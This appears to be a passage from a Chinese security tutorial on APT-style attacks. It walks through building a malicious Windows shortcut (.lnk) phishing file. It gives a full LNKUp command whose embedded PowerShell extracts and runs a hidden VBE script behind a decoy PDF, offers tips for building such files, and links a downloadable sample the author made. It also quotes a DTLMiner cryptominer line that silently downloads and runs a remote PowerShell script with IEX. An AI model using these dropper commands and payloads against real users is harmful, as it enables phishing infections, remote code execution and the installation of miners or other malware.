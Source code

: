 lnk是windows下的快捷方式文件，但通过精心构造lnk文件可以在windows下执行任意命令。<br>
恶意攻击中，攻击者会构造一个指向恶意命令或存储着恶意代码文件的快捷方式，当用户点击相关快捷方式图标（ 文档或文件夹的），会执行攻击者构造的恶意代码<br>
首先我们要学做如何制作一个恶意lnk文件，这里我们根据[http://www.sohu.com/a/282573088_354899](http://www.sohu.com/a/282573088_354899) 这篇文章中对于钓鱼lnk的分析，来制作一个典型的lnk恶意文件吧。

钓鱼lnk的制作可以通过LNKUp这个程序来制作，可以在GitHub上直接搜索到。所使用的命令如下<br>`generate.py --host localhost --type ntlm --output out.lnk --execute "Cmd.exe /c powershell -c ""$m='A_Dhabi.pdf.lnk';$t=[environment]::getenvironmentvariable('tmp');cp $m $t$m;$z=$t+''+@(gci -name $t $m -rec)[0];$a=gc $z|out-string;$q=$a[($a.length-2290)..$a.length];[io.file]::WriteAllbytes($t+'.vbe',$q);CsCrIpT $t'.vbe'"""`<br>
这里注意在cmd中如果想要在命令的参数中键入双引号不是使用转义而是连续两个双引号。<br>
生成的结果如图

[![](https://p3.ssl.qhimg.com/t017eff7e4a002199e8.png)](https://p3.ssl.qhimg.com/t017eff7e4a002199e8.png)

这段命令的作用
1. 将dubai.pdf.lnk文件复制到”%temp%”目录
1. 将dubai.pdf.lnk文件结尾处往回2340字节的内容，写入“%temp%.vbe“文件中；
<li>利用cscript.exe将vbe给执行起来。<br>
那.vbe脚本里的内容是什么呢。<br>[![](https://p3.ssl.qhimg.com/t016e178adf06e6d2a5.png)](https://p3.ssl.qhimg.com/t016e178adf06e6d2a5.png)<br>[![](https://p0.ssl.qhimg.com/t01349ed48538b32114.png)](https://p0.ssl.qhimg.com/t01349ed48538b32114.png)
</li>
先将lnk文件从文件头开始，偏移为109，大小为1173406字节的内容写入“A_Dhabi.pdf”，该文件保存在temp目录，而该文件确实为一个pdf文件。接着打开该pdf文件，让受害者误以为只是简单得打开了一个正常的pdf文件而已。（这里的偏移量和大小和源恶意样本是不一样的，因为我没找到源样本，所以是自己制作的，会存在一些偏差）<br>
打开的PDF如下：

[![](https://p1.ssl.qhimg.com/t0168009eeac21f792a.png)](https://p1.ssl.qhimg.com/t0168009eeac21f792a.png)

接着将lnk文件中pdf文件之后的19字节的内容，写入“%temp%~.tmpF292.ps1”文件中，该文件为powershell脚本：<br>
最后将接下来的读取位置写入”%temp%~.tmpF293”文件中，并利用powershell将“~.tmpF292.ps1”文件给执行起来。这里先不分析powershell的部分，只说如何制作和常用的姿势。<br>
最后再说下制作的时候很容易出现小错误，给像我这样没写过vbs的同学：
1. vbs写空进文件是不会报错的·
1. vbs代码的实际长度要比010editor显示的多两位，我不知道其他二进制编辑器会不会，所以当你在算偏移量的时候要加2
<li>调试的时候一定记得删掉on error resume next<br>
4.createobject的前面要加wscript.，所以一个不会报错的语句如下set WSHshellA = wscript.createobject(“wscript.shell”)</li>
以上步骤制作出来的结果如下：<br>[http://106.54.84.65/dubaitest.zip](http://106.54.84.65/dubaitest.zip)

<a class="reference-link" name="5.%E5%85%B6%E4%BB%96"></a>**5.其他**

如上给出的技术都是apt攻击中较为常用的技术，其余包括office 0day，OLE，office命令执行利用技巧等，本人暂且没有能力进行总结，还请自行收集

<a class="reference-link" name="%E9%87%8A%E6%94%BE%E9%98%B6%E6%AE%B5"></a>**释放阶段**

在文件落地后，受限于vbs等windows自带程序的功能限制，绝大多数apt攻击都会使用powershell去做环境检测，信息收集，释放.exe以及内网渗透的工作。那么对于powershell的理解也非常重要。<br>
接下来我们通过分析一个典型的powershell恶意样本，来学习apt攻击到底会用powershell做怎样的操作（恶意样本来自DTLMiner）<br>
挖矿木马病毒“DTLMiner”通过漏洞和弱口令攻击植入，创建快捷方式开机自启动。

[![](https://p0.ssl.qhimg.com/t01dba5bd45ebbd3fef.png)](https://p0.ssl.qhimg.com/t01dba5bd45ebbd3fef.png)

快捷方式运行之后，执行flashplayer.tmp。此文件是一个脚本，使用JS 调用PowerShell脚本下载。<br>
try`{`(new ActiveXObject(“WScript.Shell”)).Run(“powershell -w hidden -ep bypass -c while($True)`{`try`{`IEX (New-Object Net.WebClient).downloadstring(‘[http://v.bddp.net/ipc?dplow’)`}`catch`{`Sleep](http://v.bddp.net/ipc?dplow')%7Dcatch%7BSleep) -m 2500000`}``}`”,0,false);`}`catch(e)`{``}`<br>
如上，去下载[http://v.bddp.net/ipc?dplow中的ps1脚本并执行](http://v.bddp.net/ipc?dplow%E4%B8%AD%E7%9A%84ps1%E8%84%9A%E6%9C%AC%E5%B9%B6%E6%89%A7%E8%A1%8C)
